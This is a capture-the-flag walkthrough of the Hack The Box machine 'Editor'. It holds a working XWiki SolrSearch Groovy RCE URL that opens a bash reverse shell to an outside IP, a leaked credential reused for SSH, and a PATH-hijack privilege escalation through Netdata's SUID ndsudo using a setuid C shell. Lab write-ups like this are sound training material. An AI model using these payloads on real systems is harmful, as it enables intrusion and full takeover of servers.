# Editor : Walkthrough

## nmap
We were given the ip `10.10.11.80` from htb. So lets drop an nmap on it.\
\
From this we can see that there are web-servers running, lets try visiting it.\
\
so lets add `editor.htb` in `/etc/hosts` so do :\
`sudo nano /etc/hosts`\
and write the following at the end and save and exit. (ctrl O and ctrl X)\
\
Lets refresh now\
\
However i dont think this one has much to offer. So lets try visiting the port `8080`.\
And yes we got an xwiki page. And looks like the version is `15.10.8` \
\
After googling found that there is an RCE vuln available for it through the `Solrsearch` macro.\
\
\
with all these information, its clear what we have to do now. Get an RCE and then obtain a reverse shell.\
So i decided to try the macro for the vulnerability with this PoC i found earlier.\
\
Then i pasted that in the url here:\
\
Which ran without any error and gave me the output file with the `Hello from search` in it. Which confirms the existence of the RCE. So all we need to do is write a payload and get a reverse shell.\
Which I did by following the below steps:
- Simple bash rev shell
	- `bash -i >& /dev/tcp/10.10.16.75/4444 0>&1`
- Encoding to Base64
	- `echo -n 'bash -i >& /dev/tcp/10.10.16.75/4444 0>&1' | base64`
	- U get similiar output: `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi43NS80NDQ0IDA+JjEK`
- Wrap it in groovy
	- `"bash -c {echo,BASE64_STRING}|{base64,-d}|{bash,-i}".execute()`
- Wrap in Xwiki syntax:
	-  ```
		{{async async=false}}{{groovy}}
		"OUR_COMMAND".execute()
		{{/groovy}}{{/async}}
		```

After all that, we end up with something like this:
- `http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text={{async%20async%3Dfalse}}{{groovy}}%22bash%20-c%20{echo%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi43NS80NDQ0IDA%2BJjEKfQ%3D%3D}|{base64%2C-d}|{bash%2C-i}%22.execute(){{%2Fgroovy}}{{%2Fasync}}%22`

Then we get the listener running and use this url ( U can also use curl )\
\
Now, we got the rev shell.\
Now time for some foothold.

`cat /etc/passwd` gave us this:
```bash
<snip>
netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
<snip>
```
from this, we can assume that our user foothold is oliver. or we can just use `ls /home`\
Now lets try to look for some creds.\
After some hours of searching, i found the creds in `/etc/xwiki/hibernate.cfg.xml`\
\
And now we try to ssh into `oliver` with `theEd1t0rTeam99`, and BOOM..! we got in\
\
And with that , we get the user.txt\
Now for privilege escalation,\
I checked the `id` and found something interesting: `netdata` \
\
So to check whether netdata is running and to check for ports, i ran:
- `ps aux | grep -i backrest`
- `ss -tulpn 2>/dev/null | grep -i backrest || ss -tulpn 2>/dev/null | grep -E '127.0.0.1|localhost'`

\
when i ran `find / -perm -4000 -user root -type f 2>/dev/null`, one of the output caught my eye.\
\
the line `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo` along with the group of `netdata` made it stand out more. So i assumed that this is prolly my attack vector and checked its perms with `ll /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo`
\
\
Now with that... i was certain that THIS is my attack point. So i checked the help option of ndsudo.\
`/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo -h`\
\
Alright now we know what commands it runs... so lets make a duplicate `nvme` with our payload to escalate and let it run with `.../ndsudo nvme-list`.\
So lets do it.\\
```bash
mkdir /tmp/exp
cat <<'EOF' >/tmp/exp/nvme
#!/bin/bash
echo "launching exploit...."
/bin/bash
EOF

chmod +x /tmp/exp/nvme
```
\
now we should add our fake `nvme`'s path to `$PATH` \
`export PATH=/tmp/exp:$PATH` \
Now we can just check it via `which nvme`.\
\
Now lets get that root shell with `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`.\
\
There seems to be something wrong.... As we can see it IS our exploit which is being run because we can see out `launching exploit...` string we entered. \
But we still didnt get a root shell. So lets try one more thing, use `C` and use the `setuid` and `setgid` fns in it.\
So lets make a new `nvme` with it.
```c
#include<unistd.h>
#include<stdlib.h>
int main(){
	setuid(0);
	setgid(0);
	execl("/bin/bash","bash",NULL);
	return 0;
}
```
Lets write this on out attackbox and compile it and then put it into `/tmp/exp` of `editor` then run it.\
\
Now lets start a python server to send it to `editor`\
`python3 -m http.server`\
\
Now lets get that `nvme`.\
\
\
After doing checks and giving permissions, lets run it.\
\
And like that... We have rooted the box `Editor`.


#### Read more of my writeups [here](https://github.com/6cloudguy/box-writeups)
